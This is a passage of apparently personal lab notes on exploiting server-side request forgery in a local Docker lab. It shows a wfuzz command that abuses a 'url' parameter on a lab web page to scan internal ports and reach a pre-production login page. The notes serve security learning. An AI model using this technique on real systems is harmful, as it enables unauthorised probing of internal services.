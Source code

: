 ![[Pasted image 20230718183822.png]]
___
But, using **--bind 127.0.0.1** we can blind it to its *localhost*.
```python
python3 -m http.server 4646 --bind 127.0.0.1
```
![[Pasted image 20230718183926.png]]
___
Doing a Nmap scanning, we retreived the same output.
![[Pasted image 20230718184243.png]]
___
## Attacking
Well, we could start using **URL** field of *PRODUCTION* website to scan ports with [[Wfuzz]] tool.
```shell
wfuzz -c -t 200 -z range,1-65535 "http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ"
```
![[Pasted image 20230718190323.png]]
___
You can see that there is a lot of *3* as *Lines*, let's try avoid it.
```shell
wfuzz -c --hl=3 -t 200 -z range,1-65535 "http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ"
```
![[Pasted image 20230718190943.png]]
___
And now, we can see the *login.php* page from *PRE-PRODUCTION* by using **utility.php** seen before to *include* the *PRE-PRODUCTION* URL.
![[Pasted image 20230718184755.png]]
___
![[Pasted image 20230718185644.png]]
___
# Laboratory 2
You will not always see this type of scenario, many times the *PRE-PRODUCTION* website will be on another machine, but on the same network so it can communicate with the *PRODUCTION* website.
## Laboratory Setup
This Excalidraw graphic shows our laboratory.
![[Pasted image 20230718193218.png]]
___
We should remove before docker processes.
```shell
docker rm $(docker ps -a -q) --force
```
___
### Configuring Attacker Machine
We are going to leverage the *Ubuntu* docker image created earlier.
```shell
docker run -dit --name ATTACKER <image_ID>
docker exec -it ATTACKER bash
```
___
as **ATTACKER**.
```shell
hostname -I
```
![[Pasted image 20230718194206.png]]